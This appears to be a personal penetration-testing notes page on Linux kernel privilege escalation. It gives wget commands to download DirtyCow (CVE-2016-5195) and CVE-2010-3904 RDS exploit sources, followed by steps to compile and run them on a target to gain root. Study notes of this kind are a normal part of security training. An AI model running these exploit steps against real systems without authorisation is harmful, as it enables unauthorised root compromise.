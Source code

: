 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Manual
```
https://github.com/lucyoa/kernel-exploits
```

```bash - target
uname -a
```

Google "Linux debian 2.6.32-5-amd64 exploit"

```bash - kali
 wget https://www.exploit-db.com/raw/40839
```

#### DirtyCow
```bash - target
gcc -pthread c0w.c -o cow
```

```bash - target
./cow
```

```bash - target
passwd
```

#### DirtyCow2
https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c

#### Automated
![[3._Automated Tools#Linux Exploit Suggester]]

#### CVE 2016-5195
```bash - kali
wget https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
```

(un)comment correct payload first (x86 or x64)!

```bash - kali
mousepad cowroot.c
```

#### CVE 2010-3904 RDS
Download this file:
http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c

Transfer to target, compile and run.
```bash - target
gcc linux-rds-exploit.c -o privesc
```

```bash - target
./privesc
```